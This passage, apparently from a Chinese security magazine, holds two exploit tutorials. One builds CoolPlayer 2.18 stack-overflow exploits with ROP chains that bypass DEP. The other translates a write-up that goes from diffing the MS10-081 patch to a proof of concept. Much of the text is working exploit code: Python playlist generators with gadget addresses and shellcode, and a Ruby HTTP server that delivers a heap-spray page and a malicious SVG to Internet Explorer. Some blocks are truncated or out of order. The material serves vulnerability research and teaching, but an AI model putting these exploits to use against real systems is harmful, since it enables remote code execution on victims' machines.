                if count > maxlength:
                    break
            if count > maxlength:
                break
        if count > maxlength:
            break
    return diffstr

def main():
    buf = BuildStr(505)  # 溢出的填充长度为 505 字节
    file = open("poc.m3u", "w")
    file.write(buf)
    file.close()

if __name__ == "__main__":
    main()
```

在通过 pattern 比较之后，很容易就定位 EIP 在 poc 文件的偏移为 215。很普通的覆盖返回地址 EIP 的溢出。不过，如果我们换个操作系统，会发现这个偏移在不同系统中是不同的，而且在测试中我们会发现字符串遇到 `\x0D`、`\x00`、`\x0A` 会自动截断，因此编写 Shellcode 需要排除这些字符串。在 MetaSploit 平台上生成排除这三种字符的 Shellcode，更改 poc 生成代码：```python
# Name: CoolPlayer 2.18 DEP Bypass
# Purpose: Exploit of CoolPlayer 2.18
# Author: Wingdbg
# Created: 10-01-2011
# Copyright: (c) wingdbg 2011
# Licence: wingdbg@gmail.com

#!/usr/bin/env python
def main():
    dump = "\x61" * 215
    EIP = "\x4c\xd1\x7d\x7d"  # jmp esp at 0x7D7CD14C [shell32.dll]
    # pop up a messagebox showing that "wingdbg"
    shellcode = (...)
    file = open("poc.m3u", "w")
    file.write(dump + EIP + shellcode)
    file.close()

if __name__ == '__main__':
    main()
```

```c
BOOL WINAPI SetProcessDEPPolicy(
    DWORD dwFlags
);
```

这是一个工作在 Ring3 上的函数，当 dwFlags 设为 0 时，会使当前进程的 DEP 防护关闭。

但是，这个方法有很大的局限性。首先，SetProcessDEPPolicy() 这个函数的调用受 DEP 策略影响（如 OptIn / OptOut / AlwaysOn / AlwaysOff），并且对模块链接方式、系统版本与补丁情况都比较敏感；某些情况下地址不同，漏洞利用范围会显著降低。

不管如何，这个函数只有一个参数，目前是绕过 DEP 最简单的方法。我们开始重写 PoC 的生成脚本：

```python
# Name: CoolPlayer 2.18 DEP Bypass
# Purpose: Exploit of CoolPlayer 2.18 DEP Bypass
# Author: Wingdbg
# Created: 12-01-2011

#!/usr/bin/env python
def main():
    dump = "\x61" * 215
    # 设置关闭 DEP 之前 EIP 的位置
    # EIP = \x4c\xd1\x7c\x7d ...
    # 构造 ROP 链，调用 SetProcessDEPPolicy(0)
    # 使用 POP/RETN、PUSHAD 等 gadget 组织寄存器
    EIPRop = ...
```

测试成功！

到目前为止，我们成功地重现了这个典型的 jmp esp 覆盖返回地址栈溢出实例。寻找 jmp esp 的地址放在 EIP 的偏移位置上，Shellcode 紧跟其后，地址跳转后顺理成章地执行到了 Shellcode。

现在我们开启 Windows XP SP3 的硬件 DEP 功能（处理器必须支持硬件 DEP）重新运行，发现程序在 jmp esp 指令处被 DEP 拦截。进一步分析发现该地址位于只读模块，无执行权限。


图 1

### 绕过 DEP 技术门道

现在我们分别通过几种常见的 DEP bypass 机制来绕过 DEP 的防护机制。在讨论之前，默认读者已经掌握了通过 pvefindaddr 寻找 gadget、ROP 小配件、以及 Immunity Debugger 的基本使用，同时对 Windows 的 DEP 防护机制有清楚的认识。

- 方法一：通过调用函数 SetProcessDEPPolicy() 来关闭进程的 DEP 防护。
- SetProcessDEPPolicy() 函数的语法如下：

```python
EIPRop += "\xf5\xee\x76\x7d"
EIPRop += "\xc5\xee\x5b\x7d"
nop = "\x90\x90\x90\x90"*4
# pop up a messagebox showing that "wingdbg"
shellcode = (
    "\xeb\x14\x58\x62\x6f\x8a\x18\x32\xd4\x88\x18\x40\x81\x38\x...")

file = open("poc.n3u","w")
file.write(dump + EIPRop + nop + shellcode)
file.close()
if __name__ == '__main__':
    main()
```

python 代码里面已经说得很清楚了，利用 pushad 一下压入 8 个常用 Reg 的值，其中正好 esp 已经指向我们要执行的 Shellcode 了。构造函数 SetProcessDEPPolicy() 的栈中执行环境如下：

- 指向 SetProcessDEPPolicy 的指针
- 指向 Shellcode 的指针，用做函数执行完后的返回 EIP 值
- 0

如此这般，在本机的 Windows XP SP3（开启硬件 DEP）中测试成功，如图 2 所示。


图 2

### 方法二：通过调用函数 VirtualProtect() 来改变内存页的访问级别，让 Shellcode 所在区域设置可执行

```c
BOOL WINAPI VirtualProtect(
  __in   LPVOID lpAddress,
  __in   SIZE_T dwSize,
  __in   DWORD flNewProtect,
  __out  PDWORD lpfOldProtect
);
```

这个函数要比前面一个麻烦，首先是参数多；参数 flNewProtect 需要为 0x40（PAGE_EXECUTE_READWRITE）使 Shellcode 所在内存段可执行，并且让 shellcode 可以自我 Modify（一般 shellcode 都存在自我加解密）。这个参数值包含 NULL，故而需要通过 ROP 在运行时动态设置。

其次，参数 lpfOldProtect 可以为硬编码地址，但是该地址必须是可写的；我们可以在程序运行地址空间中找一个来设置。由于复制字符串不能容忍 null，参数 dwSize 也必须在运行时设置。综合看来，我们需要两个 gadget：其一是运行 VirtualProtect() 函数，其二为设置该函数所需要的参数。

我们仍然采用 Immunity Debugger 强悍的 pvefindaddr 插件来寻找可用的 gadget，并且尽可能地发挥想象来构造这两个 gadget，经过孜孜不倦的探索，我们可以构造如下生成代码：

```python
# Name: CoolPlayer 2.18 DEP Bypass
# Purpose: Exploit of CoolPlayer 2.18 DEP Bypass using VirtualProtect()
# Author: Wingdbg
# Created: 12-01-2011
# Copyright: (c) wingdbg 2011

#!/usr/bin/env python
def main():
    dump = "\x61" * 215
    # 设置 EDI 为 retn 指令地址，ESI 为 VirtualProtect() 地址
    # 0x7D5BA02C : {POP} # POP EDI # POP ESI # RETN
    # ...
    EIPRop += "\x2c\xa0\x5b\x7d"
    EIPRop += "\x2e\xa0\x5b\x7d"
    # ...大量 ROP 链设置寄存器与参数...
```

```python
#0x7D5BBF32 #XOR EAX,EAX #RETN
#0x76C78BBF #ADD EAX,40 #RETN
#0x77C28FBC #XCHG EAX,EDX #RETN
...
# 通过 pushad 使栈中顺序为 edi,esi,ebp,esp,ebx,edx,ecx,eax
#0x7D5BBEC5 #PUSHAD #RETN
...
# warning: shellcode length should be less than 209 in decimal
shellcode = "\xcb\x14\x58..."
...
file=open('poc.m3u','w')
file.write(dump+EIPRop+nop+shellcode)
file.close()
if __name__=='__main__':
    main()
```

能就截断了）的地址，然后利用 VirtualProtect 使得 Shellcode 块可写、可执行（PAGE_EXECUTE_READWRITE），跳转到其中执行，这个实现过程不在本文中讨论。

### 方法三：通过调用函数 NtSetInformationProcess() 来改变当前进程的 DEP 策略，让 Shellcode 所在的栈可执行

该函数语法如下：

```c
NtSetInformationProcess(
    IN HANDLE ProcessHandle,
    IN PROCESS_INFORMATION_CLASS ProcessInformationClass,
    IN PVOID ProcessInformation,
    IN ULONG ProcessInformationLength
);
```

这个函数和 VirtualProtect() 是类似的，比较诡异的是，第 3 个参数必须是一个可写的内存地址，而且地址上的内存值为 0x00000002。第 4 个参数即为第 3 个参数的长度，就是 0x04。总体说来，我们继续采用 pushad 的伎俩，让 esp 自动包含 Shellcode 的地址，同时 ebp 指向函数 NtSetInformationProcess() 的地址，ebx 设为 1，edx 设为 0x22，ecx 设为某第 3 个参数，eax 设为 0x04。开始寻找可为我们所用的 gadget。最后构造如下代码：

```python
# Name: CoolPlayer 2.18 DEP Bypass
# Purpose: Exploit of CoolPlayer 2.18 DEP Bypass using NtSetInformationProcess()
# Author: wingdbg
# Created: 13-01-2011

#!/usr/bin/env python

def main():
    dump='\x61'*215
    # 设置 EDI、ESI 为 retn 指令地址，EBP 为函数 NtSetInformationProcess() 地址
    #0x5D1DF06C: POP EDI # POP ESI # POP EBP # RETN
    #0x7D5BA02E: retn
    #0x7c92dc9e: NtSetInformationProcess
    EIPRop='\x00\xee\x10\x50'
    ...
    #0x76605043: XCHG EAX,EBX # RETN
    #0x7D5BA74D: POP EBX # RETN
    ...
    #0x76C62146: ADD EAX,3DC # RETN
```

代码中的注释说明已经很清楚了，稍微需要注意几个问题。第一，这个 gadget 的地址在不同计算机上很可能是不同的。也就是说，代码中所用到指令的地址可能存在操作系统版本的差异。这个跟系统的安装情况关系很大……并且，地址中还不能包含 '\x0d'、'\x0a' 这种字符，因为输入的二进制串会被它截断。

第二，VirtualProtect 的地址在不同的系统中更是千差万别，笔者采用 pvefindaddr 来寻找 rop function（也就是调用该函数的一些汇编指令）。但是这些函数调用都是在系统 dll 中进行的，达不到动态寻找 VirtualProtect 函数地址的效果，故而作罢。

第三，在代码注释中也有说明，漏洞触发程序能够接受的恶意二进制字符串长度是有限的，在本例的情况下，最长不能超过 209 个字符。这是有限的，如果遇到较大功能的 Shellcode，可能很容易超过这个长度。这里可以考虑两种方法：一种是把 Shellcode 放在前面，也就是 215 个 'A' 中；另一种是采用 egg hunting 技术，搜寻完整的 Shellcode 块。

```python
#0x76C6227A : # ADD EAX,-2D4 # RETN
#0x76C78BBF : # ADD EAX,40 # RETN
#0x76C78BBF : # ADD EAX,40 # RETN
#0x76C7F057 : # ADD EAX,1A # RETN
#0x76C7F079 : # ADD EAX,6 # RETN
#0x77D462ED : # XCHG EAX,ECX # RETN

EIPRop += '\x46\x21\xc6\x76'
EIPRop += '\x7a\x22\xc6\x76'
EIPRop += '\xbf\x8b\xc7\x76'
EIPRop += '\xbf\x8b\xc7\x76'
EIPRop += '\x57\xf0\xc7\x76'
EIPRop += '\x79\xf0\xc7\x76'
EIPRop += '\xed\x62\xd4\x77'
# 设置 edx 值为 0x22，也就是 NtSetInformationProcess() 的第 2 个参数

#0x7D5BBF32 : # XOR EAX,EAX # RETN
#0x76C7F057 : # ADD EAX,1A # RETN
#0x76C7F097 : # ADD EAX,8 # RETN
#0x77C28FBC : # XCHG EAX,EDX # RETN

EIPRop += '\x32\xbf\x5b\x7d'
EIPRop += '\x57\xf0\xc7\x76'
EIPRop += '\x97\xf0\xc7\x76'
EIPRop += '\xbc\x8f\xc2\x77'
# 设置 eax 值为 0x04，作为 NtSetInformationProcess() 的第 4 个参数

#0x7D5BBF32 : # XOR EAX,EAX # RETN
#0x76C7F1B9 : # ADD EAX,4 # RETN

EIPRop += '\x32\xbf\x5b\x7d'
EIPRop += '\xb9\xf1\xc7\x76'
# 通过 pushad 使栈顺序为 edi, esi, ebp, esp, ebx, edx, ecx, eax

#0x7D5BEEC5 : # PUSHAD # RETN
EIPRop += '\xc5\xee\x5b\x7d'

# pop up a messagebox showing that "wingdbg" length: 0xC7(199)
# warning: shellcode length should be less than 213 decimal

shellcode = (
    "\xeb\x14\x58\xb2\xdf\x8a\x18\x32\xda\x88\x18\x40\x81"
    "..."
)

file = open('NtSetInformationProcess.m3u','w')
file.write(dump + EIPRop + shellcode)
file.close()

if __name__ == '__main__':
    main()
```

同前面一样，代码中注释得已经非常清楚。这里有个技巧，一般的 gadget 运算喜欢采用 eax（汇编语句编译成二进制时会对 eax 有优化），故而我们在设置其他寄存器的值时，如果不能直接运算操作，可以尝试先对 eax 进行运算，然后把 eax 的值赋给相应的寄存器即可。这会大大增加找到我们顺手的 gadget 的几率！在调试器 ImmDBG 中设断 0x5D1DEE06，正常调试单步执行，最后 Shellcode 成功释放执行，如图 3 所示。


图 3

目前看来算是大功告成了，关闭调试器，直接运行 coolPlay 播放器，将 poc 文件拖曳到软件中看看测试效果（设置 ImmDBG 为 just-in-time 调试器），真不幸，程序在执行到 Shellcode 处被终止了！如图 4 所示。


图 4

下端的提示：Access Violation when… 很清楚地表明，我们设置当前进程 DEP 的策略失败了，说明 NtSetInformationProcess() 函数的参数设置有问题，一一检查后，我们发现了端倪，如图 5 所示。


图 5

NtSetInformationProcess() 的第 3 个参数 ecx，我们设置其值为 0x003e62a0，在直接运行的情况下，地址 0x003e62a0 的值并不为 02 00 00 00！就是说第 3 个参数出了问题。我们在调试器的 memory map 上细看 0x003e62a0 正是一个标准的堆地址，想到调试堆和运行堆的区别（详见 faiwes《0day 安全：软件漏洞分析》一书），就不难理解了。我们重新运行插件 !pvefindaddr，其 command 为 "!pvefindaddr find 02000000 rw"，但是这次我们要运行两次，分别是调试态和运行态下的运行。在调试器文件夹目录下生成两份 find.txt，我们来查询在两份搜索结果中重复出现的地址（指向 0x00000002），排除掉包含特殊字符（\x0D、\x0A、\x00）的地址，然后要求地址所在页必须是可写的。可供选择的地址就映入眼帘了（注意：我们可以尽量采用系统 dll 上的地址），经过一番更改后，重新构造生成的代码如下：

```python
#
# Name: CoolPlayer 2.18 DEP Bypass
# Purpose: Exploit of CoolPlayer 2.18 DEP Bypass using NtSetInformationProcess()
#
# Author: wingdbg
#
# Created: 13-01-2011
# Copyright (c) wingdbg 2011
# Licence: wingdbg@gmail.com
#
#!/usr/bin/env python

def main():
    ...
    # 设置 EDX / ECX / EAX 等寄存器并构造 EIP ROP 链
    ...
```

```python
NtSetInformationProcess() 的第 3 个参数，而且必须指向 0x00000002：
# 运行 !pvefindaddr find 02000000 rw 来查找这样的地址
...
# 通过运行插件发现 Location: 0x7F343CC
...
# POP ECX # RETN
...
# XOR EAX,EAX # RETN
# ADD EAX,4 # RETN
...
# PUSHAD # RETN
...
shellcode = (...)
file = open('NtSetInformationProcess.m3u', 'w')
file.write(dump + EIPRop + shellcode)
file.close()

if __name__ == '__main__':
    main()
```

生成触发 m3u 文件后，双击打开，测试成功，如图 6 所示。


图 6

- 前置知识：无
- 关键词：MS10-081、POC、漏洞


## MS10-081 漏洞从补丁比对到生成 POC

文 Nephi Johnson　译 windbg

### 译者说明

本文是关于补丁比对技术实践性很强的一篇文章，原帖在 http://www.breakingpointsystems.com/community/blog/microsoft-vulnerability-proof-of-concept。在翻译的过程中，译者也搭建了自己的实验环境加以说明，阐述自己的一番理解。下面译文中绿色的部分就是译者在自己的实验中所做的详细过程。所使用的工具和原作者有所不同，而且实验结果也有些许的差异，当然，这都是系统、环境的不同所造成的。

MS10-081 是一个典型的“外来型”漏洞，CVE 编号为 CVE-2010-2746。类似于 Flash 和 ActiveX 之类的插件漏洞，IE 浏览器在运行第三方可伸缩矢量图形（SVG）查看器时，Windows 公共控件库（comctl32.dll）呈现特制网站的方式中存在堆溢出漏洞。如果用户访问了特制网页，此漏洞可能允许远程执行代码。如果用户使用管理员权限登录，成功利用此漏洞的攻击者便可完全控制受影响的系统。

译者的实验环境是 VMware 6.0 + Windows XP SP3 Pro（IE 6），使用 windbg 和 ImmDBG 两种调试器，另外使用 PyScripter 这种 Python 的 IDE 环境，也并无其他利器。

由于水平有限，很多名词翻译可能不是很专业，译者尽力采用自己的理解方式来使大家理解起来更加容易。希望读者能够不吝批评指正。

### 理解这个漏洞

执行这个 exploit 的视频演示。

和大多数人在开始一个项目所做的工作一样；我开始搜集尽可能多的关于这个漏洞的信息。就从微软提供的信息开始（http://www.microsoft.com/technet/security/bulletin/ms10-081.mspx）；我发现该漏洞是一个关于 IE 的第三方 SVG（可缩放向量图形）插件的堆溢出实例。更多信息搜集之后，我找到了漏洞的发现方——h07's web site，并且通过 Secunia 的介绍了解到第三方的插件是 Adobe SVG Viewer 3.03，真正的漏洞产生自 h07 中叫做“整形截断”的问题。掌握了以上信息，我转而开始逆向分析补丁程序。

下载了 MS10-081 的补丁 patch for Windows XP SP3 之后；通过运行以下命令解压提取补丁的内容（译者注：假设补丁下载名为 KB.exe，解压后文件夹命名为 after）。

```text
C:\Documents and Settings\testing\Desktop\KB.exe /extract:after
```

然后，运行以下命令搜索当前（未修复）的 dll 版本（译者注：补丁的内容都是替换系统的 comctl32.dll 文件，所以就搜索当前未修复的这个 dll）。

```text
C:\>dir /s /b comctl32.dll
```

在找到需要比较的 comctl32.dll 文件之后，我使用了 BinDiff 工具来找到补丁修复前后两个 dll 的差异。最后找到了 SBGetText() 函数在前后两个 dll 中改变最为明显。如图 1 所示（译者注：查看清晰原图，地址为 http://www.breakingpointsystems.com/default/assets/image/image_1_vis_diff.jpg）。

在地址 773de3a1～773de3a8 之间，你可以看见类似于以下 C 代码的校验操作。

### 前言

在本文中，我将介绍通过逆向近期的一个微软补丁成功制造出一个 exploit 的经历，同时分享我在其中学到的一些东西。我们首先逆向分析一下补丁程序来了解这个漏洞的起因，然后试图制作这个漏洞的 exploit。在文章最后将提供一个展示如何……

```c
max_len = 0xffff;
if (length > max_len) {
    length = max_len;
}
...
call ds:__imp__lstrlenA@4
cmp edi, 0FFFFFFEh
mov esi, eax
```

值的判断改变了整个程序的流程。跟原作者的实验基本吻合。如图 4 所示。


图 4


图 1

译者实践经历：在微软官方网站下载补丁后解压提取相关的 dll，使用 eEye 的 DiffingSuite 工具中的 DarunGrim 作为补丁对比利器。实验环境选择 VMware 6.0 + Windows XP SP3 Pro，选择 system32 目录下的 comctl32.dll 和补丁中 SP3QFE 目录的同名文件进行比较。如图 2 所示。


图 2

选择第 4 项 SBGetText@20，按 Ctrl+D 组合键打开函数比较的图形界面，如图 3 所示。


图 3

值得注意的是，原作者的实验环境是 IE 7，译者使用的是 IE 6 加以区别。故而偏移地址上会有不同。但是，我们该如何使程序运行到那个函数呢？（译者注：这是指调试时捕获 SBGetText() 函数）最后发现程序在运行时很自然地就会调用这个函数，甚至在没有使用 Adobe SVG Viewer 的情况下也会！对 comctl32!SBGetText 设置一个断点并且查看 back_trace，如下所示：


从显示的调用堆栈信息来看，这部分代码的功能似乎跟 IE 状态栏的显示有关系。但是，似乎没有任何一个函数是出自 Adobe 的 dll。为了证实我的猜测，在函数体 comctl32!SBGetText 内部，我在其中两次对 strlen 的调用位置设置了断点，这样就可以观察哪些字符串需要得到其长度。

```text
Downloading from site 'http://192.168.56.1/ms10_081/test.html'
Done
...
0:e 7713e2ea ... comctl32!SBGetText
```

也就是说，在地址 0x5D1A8F62 处，出现了对 lstrlenA 返回值的判断。

```text
2 e 77318e357      0001 (0001)   0-****
comctl32!SBGetText+0x6d   // 为 lstrlenW
3 e 7718e37e      0001 (0001)   0-****
comctl32!SBGetText+0x94   // 为 lstrlenA
...
0012b238  "正在从以下站点下载: http://www.shandongkv"
0012b278  ".com/test.html"
```

```text
TEXT-&Copy Selected Text
$$$/String/Shared/VersionString="^1^2, Build
$$$/String/Shared/INVALID_SCRIPT_TYPE=Invalid script type: '^1', try text/javascript
```

正如你看到的那样，strlen 所处理的字符串和你在 IE 状态栏中看到的显示内容完全一致。

在确定了状态栏里的函数处理过程之后，我的第一个念头就是程序正在通过使用 SVG Viewer 软件来实现一个我可以控制的状态信息。在对那些合法有效的 SVG 图片测试无果之后，我猜测也许用一个无效的 SVG 就可以让这个插件（SVG Viewer）在状态栏中显示一个错误信息。通过使用一些不搭配标签构造的 SVG 图片，我开始了第一个尝试：

大多数的结果看起来帮助不大，但是有一些包含了“1”和“2”，这似乎和 printf() 函数里面的格式化字符很相似。对这些特殊字符一番搜索之后，我得到如下结果：

```text
C:\Program Files\Common Files\Adobe\SVG Viewer 3.0>strings -n 10 SVGCore.dll | find "^1"
$$$/String/Shared/SVG_HELP_URL_ROOT=http://www.adobe.com/svg/viewer/help/^1/^2/^3/help.html
$$$/String/Shared/VersionString="^1^2, Build
$$$/String/Shared/INVALID_SCRIPT_TYPE=Invalid script type: '^1', try text/javascript
$$$/Error/CSS_BadStyleSheetPlusParam=unable to parse CSS style sheet:^1
$$$/Error/Transform_BadData=bad data at end of transform: '^1'
$$$/Error/Transform_UnkPrimTrans=unknown primitive transformation '^1'
...
```

```xml
<?xml version="1.0"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
 "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg"
 xmlns:xlink="http://www.w3.org/1999/xlink">
 <rect height="100" width="100" style="stroke:#ff0000; fill #000000">
  <BLAH>
</svg>
```

这个无效的 SVG 给我们显示了如下的状态信息，如图 5 所示。


接下来我的想法就是去看看在 SVG 的插件软件中是不是有类似的状态信息，而且很可能要搜寻的状态信息文本长度需要超过 0xfffe。我使用了 Sysinternals 的 strings 工具去寻找包含上面状态信息的字符串：

```text
C:\Program Files\Common Files\Adobe\SVG Viewer 3.0>strings -n 10 *.dll | find "mismatched"
...
$$$/Error/XML_ERROR_TAG_MISMATCH=mismatched tag
...
```

根据搜寻的结果，我们似乎必须通过查找“$$$”来得到其他的状态信息文本：

```text
C:\Program Files\Common Files\Adobe\SVG Viewer 3.0>strings -n 10 SVGCore.dll | find "$$$"
$$$/String/Windows/IDS_WIN_DEFAULT_FONT_ASCII_NAME=ArialMT
$$$/MenuItems/Windows/ID_MENUITEM_ABOUT=&About Adobe SVG Viewer...
$$$/MenuItems/Windows/ID_MENUITEM_SAVEAS=&Save SVG As...
$$$/MenuItems/Windows/ID_MENUITEM_VIEW_SOURCE=&View Source
$$$/MenuItems/Windows/ID_MENUITEM_COPY=&Copy SVG
...
```

这些结果貌似很像从 SVG 中可以直接控制的消息。我选择使用“unknown primitive transformation”错误消息尝试创建一个长度超过 0xfffe 的状态消息，Ruby 代码如下：

```ruby
#!/usr/bin/env ruby
svg = <<-SVG
<?xml version="1.0"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
 "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg"
 xmlns:xlink="http://www.w3.org/1999/xlink">
 <rect height="100" width="100" style="stroke:#ff0000; fill #000000"
       transform="BLAH(0)">
 </rect>
</svg>
SVG
svg.gsub!('BLAH', 'A' * 65535)
File.open('test.svg','w'){|f| f.write svg }
```

用 IE 浏览器打开这个 SVG，崩溃！如下所示：

```text
0:000> g
(10c.480): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
...
comctl32!StringCopyWorkerW+0x22:
773d48de 66890a  mov word ptr [edx],cx
```

为了得到一个能够触发该漏洞的简单 SVG 图片，我决定试着更全面地了解它。于是我发现在上面 Ruby 脚本生成的 SVG 打开过程中，地址 `0x773de357` 处对函数 `strlen()` 的调用返回了 `0x10022`，并且保存在 `esi` 寄存器中。此后 `si` 被复制进 `ecx`，由于是零扩展，基本上就是用字符串长度和 `0xffff` 做与运算，这样就导致字符串长度从 `0x10022` 变成 `0x22`。也许这就是 h0r 所说的整形截断的意思吧。

```asm
// comctl32!SBGetText
773de357 ... call comctl32!_imp__lstrlenW
773de35d ... mov esi,eax ; (0x10022)
...
773de3ca ... movzx ecx,si ; ecx=0x22
773de3cd ... shl eax,10h ; eax was always 0
...
773de3d0 ... or eax,ecx ; eax=0x22
...
773de3d6 5f  pop edi
773de3d7 5e  pop esi
773de3d8 5d  pop ebp
773de3d9 c21400 ret 14h
```

字符串长度 `0x22` 是几个函数的返回值。最终，这个长度（`0x22`）在函数 `SHDOCVW!CIEFrameAuto::get_StatusText` 中被用来分配一个新的字符串。

```asm
// SHDOCVW!CIEFrameAuto::get_StatusText
... inc dword ptr [ebp+0Ch]   ; 0x22 + 1 = 0x23
... movzx eax,word ptr [ebp+0Ch]
... inc eax                   ; 0x23 + 1 = 0x24
... push eax
... push edi
... call SHDOCVW!SysAllocStringLen
```

调用函数 `SysAllocStringLen()` 返回了新分配的字符串地址。这个相同的字符串随后就被送入函数 `SBGetText()` 中去，并且所有的 `0x10022` 长度的宽字符（Unicode）被复制进去，导致了一个堆溢出：

```asm
// comctl32!SBGetText
773de34d ... push dword ptr [ebp+14h] ; full string
773de350 ... push esi                 ; under allocated string
773de351 ... call comctl32!StrgCchCopyW
```

整个的堆栈回溯如下所示：

```text
SVGCore+0x3570
SVGCore+0x3442
SVGCore+0x3189
SVGCore+0x5bdc
...
SHDOCVW!CIEFrameAuto::get_StatusText
BROWSEUI!CShellBrowser2::SendControlMsg
BROWSEUI!CCommonBrowser::SendControlMsg
SHDOCVW!CBaseBrowser2::SendControlMsg
USER32!SendMessageW
...
comctl32!SBGetText ; returns 0x22 for the length
```

```text
USER32!UserCallWinProcCheckWow
USER32!SendMessageWorker
USER32!SendMessageW
SHDOCVW!CBaseBrowser2::SendControlMsg
BROWSEUI!CCommonBrowser::SendControlMsg
BROWSEUI!CShellBrowser2::SendControlMsg
SHDOCVW!CIEFrameAuto::get_StatusText
SHDOCVW!SysAllocStringLen ; allocates string with length of 0x24
...
comctl32!SBGetText
copies full status text into 0x24 byte string (heap overflow)
```

同时，在上述堆栈调用之前，状态栏的文本被初始设置为完整的 `0x10022` 长度的字符串。调用函数 `SBGetText()` 之前的操作我有些弄不懂，但这就是实实在在发生的情况。修复的补丁只是确保了函数 `comctl32!SBGetText()` 永远不会返回一个大于 `0xfffe` 的字符串长度。

### 利用这个漏洞

下面是溢出利用的 POC。尽管经过了一些尝试，但我还是在 Windows XP SP3 系统中用 IE 7 测试成功。下面脚本的默认监听端口是 `55555`，当然你可以换一个不同的。提醒注意的是，为了使状态文本显示（溢出得以发生），鼠标必须在 SVG 上滑过。

```ruby
#!/usr/bin/env ruby
# ... proof-of-concept ...
require 'socket'
def http_send(sock, data, opts={})
  defaults = { code: '200', message: 'OK', type: 'text/html', desc: 'content' }
  opts = defaults.merge(opts)
  # build headers and send
end

def sock_read(sock, out_str, timeout=5)
  # recv and parse
end

port = ARGV[0] || 55555
transform_name = "x21" # 65535 ...
```

```ruby
svg = <<-SVG
<?xml version="1.0"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg"
  xmlns:xlink="http://www.w3.org/1999/xlink">
  <rect x="50" y="50" height="110" width="110"
    style="fill:#ffffff"
    transform="#{transform_name}(10),translate(30),rotate(45 50 50)">
  </rect>
  <text x="100" y="100">CLICK ME</text>
</svg>
SVG

html = <<-HTML
<html>
<body>
<script>
<!--
function str_dup(str, length) {
  var result = str;
  while(result.length < length) {
    result += result;
  }
  return result.substr(result.length - length);
}

var shellcode = unescape("...");
var base = str_dup(unescape("%u2100"), 0x800 - shellcode.length);
var arr = [];
for (var i = 0; i < 2000; i++) {
  arr[i] = document.createElement("a");
  arr[i].innerHTML = base + shellcode;
}
//-->
</script>
<iframe width="100%" height="100%" src="poc.svg" marginheight="0" marginwidth="0"></iframe>
</body>
</html>
HTML

puts "[+] Listening on port #{port}"
TCPServer.open(port) do |srv|
  while true
    cli = srv.accept
    req = ""
    next unless sock_read(cli, req, 5)
    while req.length > 0
      if req =~ /GET.*svg/i
        break unless http_send(cli, svg, :type=>"image/svg+xml", :desc=>"svg")
      elsif req =~ /QUIT/
        exit()
      else
        break unless http_send(cli, html, :type=>"text/html", :desc=>"html")
      end
      req = ""
      next unless sock_read(cli, req, 5)
    end
    cli.close rescue next
  end
end
```

POC 的功能很简单，工作方式如下：

- 1. 通过堆喷射使得标志性的 NOP 串喷射到地址 `0x00210021` 处（NOP 后面即是 Shellcode）。
- 2. 堆上溢出的数据为 `\x2100 * 65535`。
- 3. 覆盖堆上的虚表指针使其能够跳转到 `0x00210021` 处执行。

下面将分别详细介绍这三个方面的细节问题。

### 堆喷射

可能你会注意到：和我的前一篇文章类似，这个溢出实例仍然使用堆喷射。尽管如此，这次喷射却要精准地命中目标地址 `0x00210021`。这真不是我真正想做的事，但是对于这个例子来说却很实用。我之所以看准了这个地址，完全是由于输入要转换成 Unicode 状态文本所带来的字符限制（要记住的是 Unicode 文本来自 SVG，而不是堆喷射的结果）。

- 1. 空间必须大于 `0x20`；
- 2. 字符必须是可见的（可打印）；
- 3. 不能够终止当前的转换历程（不能有 `;` 或者 `'`）。

在尽力把 NOP 串往 Unicode 形式（`0x00xx00xx`）的低地址上喷射的过程中，我发现最简单的方法就是把喷射值设置成 HTML 元素的 innerHTML。这样要比通过使用 string 对象来进行堆喷射的成功率高得多。同时也会使得 Shellcode 可以接受的字符类型受到影响，因为在 IE7 以上的版本中，HTML 元素的 innerHTML 不支持空字节的类型（当然，这种类型在 IE6 是可以允许的）。通过 MSI 平台的加密方式调整能够解决这些问题。

但是为什么地址一定是 `0x00210021` 呢？本来在喷射中我们仅仅找到这样一个稳定的地址能够始终将 NOP 串喷射到其上，更何况这个地址本身反汇编成一个 nop 效果的指令呢？

```asm
00210021:2100    and dword ptr [eax], eax
00210023:2100    and dword ptr [eax], eax
00210025:2100    and dword ptr [eax], eax
00210027:2100    and dword ptr [eax], eax
```

在调试中我们发现一个更好的情况：当指令跳转到 `0x00210021` 上执行时，似乎 `eax` 的值通常也会指向这个值 `0x00210021`：

```text
0012> g
Breakpoint 0 hit
eax=00210021 ebx=0438a9a8 ecx=00228918 edx=7e8f0ce3
esi=0438980c edi=00000000
eip=00210021 esp=01fbf9e0 ebp=01fbf9f4 ...
00210021 2100 and dword ptr [eax],eax
ds:0023:00210021=00210021
```

### 覆盖伪自由虚表指针

事实上，我根本不需要为了使这步发生而做任何事。在从 Adobe SVG Viewer 上获取的状态文本显示的同时，因为同样的原因，这个步骤也发生了：光标在 SVG 的控件上滑过，产生一个让状态文本更新的事件（溢出也发生了）。下面就是一个覆盖虚表指针使得最终产生一个指向 0x00210021 调用的实例。

在地址 0x00210021 断下之后：

```text
0:017> g
Breakpoint 0 hit.
...
<Unloaded_!der.dll>+0x210020:
00210021 2100            and dword ptr [eax],eax
...
```

堆栈调用如下：

```text
0:005> k
ChildEBP RetAddr
WARNING: Frame IP not in any known module. Following frames may be wrong.
...
NPSVG3!DllUnregisterServer+...
USER32!InternalCallWinProc+...
```

跳转到地址 0x00210021 的指令如下：

```text
mshtml!CElement::Doc:
...
mov eax,dword ptr [ecx]
...
mov edx,dword ptr [eax+34h]
...
call edx
```

多开虚拟机存有快照，在被 0x00210021 覆盖之前，虚表指针 0x00226380 处是这样的：

```text
00226380 7e901778 mshtml!CMarkup::`vftable'
```

我们查看虚表开始处偏移 0x34 的位置，可以发现，正常情况下函数 `mshtml!CMarkup::SecurityContext` 是要被调用的，而不是后来我们覆盖的 0x00210021，如图 6 所示。


### 看到的东西

